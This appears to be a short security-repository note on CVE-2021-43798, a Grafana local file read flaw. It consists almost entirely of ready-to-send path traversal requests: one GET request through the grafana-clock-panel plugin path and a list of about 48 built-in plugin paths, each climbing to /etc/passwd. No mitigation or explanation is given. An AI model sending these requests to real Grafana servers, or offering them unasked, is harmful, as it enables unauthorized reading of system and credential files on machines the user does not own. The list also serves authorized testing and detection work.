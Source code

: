 # Grafana

Grafana is the open source analytics & monitoring solution for every database.

## CVE-2021-43798 - Grafana-Unauth-File-Read

Unauthorized reading of files in Grafana (0day)

It looks like the new 0day LFI in Grafana exists thanks to the grafana-clock-panel plugin. It is enough to send a GET request of the form:

```GET /public/plugins/grafana-clock-panel/../../../../../../../etc/passwd```

# List of plugins

```/public/plugins/alertGroups/../../../../../../../../etc/passwd

/public/plugins/alertlist/../../../../../../../../etc/passwd

/public/plugins/alertmanager/../../../../../../../../etc/passwd

/public/plugins/annolist/../../../../../../../../etc/passwd

/public/plugins/barchart/../../../../../../../../etc/passwd

/public/plugins/bargauge/../../../../../../../../etc/passwd

/public/plugins/canvas/../../../../../../../../etc/passwd

/public/plugins/cloudwatch/../../../../../../../../etc/passwd

/public/plugins/dashboard/../../../../../../../../etc/passwd

/public/plugins/dashlist/../../../../../../../../etc/passwd

/public/plugins/debug/../../../../../../../../etc/passwd

/public/plugins/elasticsearch/../../../../../../../../etc/passwd

/public/plugins/gauge/../../../../../../../../etc/passwd

/public/plugins/geomap/../../../../../../../../etc/passwd

/public/plugins/gettingstarted/../../../../../../../../etc/passwd

/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd

/public/plugins/grafana/../../../../../../../../etc/passwd

/public/plugins/graph/../../../../../../../../etc/passwd

/public/plugins/graphite/../../../../../../../../etc/passwd

/public/plugins/heatmap/../../../../../../../../etc/passwd

/public/plugins/histogram/../../../../../../../../etc/passwd

/public/plugins/influxdb/../../../../../../../../etc/passwd

/public/plugins/jaeger/../../../../../../../../etc/passwd

/public/plugins/live/../../../../../../../../etc/passwd

/public/plugins/logs/../../../../../../../../etc/passwd

/public/plugins/loki/../../../../../../../../etc/passwd

/public/plugins/mixed/../../../../../../../../etc/passwd

/public/plugins/mssql/../../../../../../../../etc/passwd

/public/plugins/mysql/../../../../../../../../etc/passwd

/public/plugins/news/../../../../../../../../etc/passwd

/public/plugins/nodeGraph/../../../../../../../../etc/passwd

/public/plugins/opentsdb/../../../../../../../../etc/passwd

/public/plugins/piechart/../../../../../../../../etc/passwd

/public/plugins/pluginlist/../../../../../../../../etc/passwd

/public/plugins/postgres/../../../../../../../../etc/passwd

/public/plugins/prometheus/../../../../../../../../etc/passwd

/public/plugins/stat/../../../../../../../../etc/passwd

/public/plugins/state-timeline/../../../../../../../../etc/passwd

/public/plugins/status-history/../../../../../../../../etc/passwd

/public/plugins/table-old/../../../../../../../../etc/passwd

/public/plugins/table/../../../../../../../../etc/passwd

/public/plugins/tempo/../../../../../../../../etc/passwd

/public/plugins/testdata/../../../../../../../../etc/passwd

/public/plugins/text/../../../../../../../../etc/passwd

/public/plugins/timeseries/../../../../../../../../etc/passwd

/public/plugins/welcome/../../../../../../../../etc/passwd

/public/plugins/xychart/../../../../../../../../etc/passwd

/public/plugins/zipkin/../../../../../../../../etc/passwd

```
